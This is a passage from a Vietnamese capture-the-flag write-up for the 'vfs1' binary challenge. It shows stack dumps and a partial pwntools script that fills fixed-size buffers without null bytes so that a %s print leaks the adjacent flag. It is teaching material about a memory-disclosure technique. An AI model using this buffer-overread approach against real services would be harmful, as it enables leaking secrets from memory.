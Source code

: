 - Nghĩa là nó lấy flag bỏ vào địa chỉ 0x007fffffffdab0, lưu trong stack

- Flag của chúng ở đây

`0x007fff9417f090│+0x0b60: "this-is-fake-flag\n"
0x007fff9417f098│+0x0b68: "fake-flag\n"`

- Chuỗi chúng ta nhập ở đây

```
0x007fff9417e550│+0x0020: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa111111111111111111[...]"
0x007fff9417e558│+0x0028: "aaaaaaaaaaaaaaaaaaaaaaaa11111111111111111111111111[...]"
0x007fff9417e560│+0x0030: "aaaaaaaaaaaaaaaa1111111111111111111111111111111111[...]"
0x007fff9417e568│+0x0038: "aaaaaaaa111111111111111111111111111111111111111111[...]"
0x007fff9417e570│+0x0040: "11111111111111111111111111111111111111111111111111[...]"
0x007fff9417e578
```

-Nghĩa là nếu chúng ta có thể nối chuỗi ở `0x007fff9417e550` với flag thành 1 chuỗi không có null byte thì %s nó sẽ in ra hết và kèm flag của ta vào

## Thực thi

- Do ta chỉ được nhập 10 lần và chỉ cần 10 lần đó có thể tạo được một chuỗi dài không có null byte
- Chương trình cho ta nhập 32 byte tên và 256 byte nội dung nên ta vẫn nhập đủ 32 và 256 byte đó

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('vfs1', checksec=False)

context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
                b*main+355

                c
                ''')
        input()


def info(msg): return log.info(msg)
def sla(msg, data): return p.sendlineafter(msg, data)
def sa(msg, data): return p.sendafter(msg, data)
def sl(data): return p.sendline(data)
def s(data): return p.send(data)


if args.REMOTE:
    p = remote('byuctf.xyz', 40008)
else:
    p = process(exe.path)

GDB()


def option1():
    sla(b"> ", b"1")
    sla(b"> ", b"a"*32)
    sla(b"> ", b"1"*256)


```